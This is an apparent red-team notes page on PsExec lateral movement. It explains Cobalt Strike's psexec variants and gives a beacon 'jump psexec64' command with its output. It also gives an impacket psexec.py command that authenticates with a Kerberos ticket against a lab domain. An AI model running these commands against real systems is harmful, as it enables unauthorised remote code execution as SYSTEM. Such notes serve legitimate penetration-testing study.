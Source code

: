 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[PsExec]]  
___

## Description:  

For Lateral Movement in 

### Cobalt Strike

The `psexec` / `psexec64` commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  `psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).

Beacons executed this way run as SYSTEM.

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25

```
or in older versions you can use:
```
psexec srv01 C$ http
```
### On Kali With impacket
You need a .ccache or .kirbi ticket.
To obtain those tickets from Rebeus: [[RubeusToCcache]]

```
export KRB5CCNAME=/root/impacket-examples/ticket.ccache
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:47 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
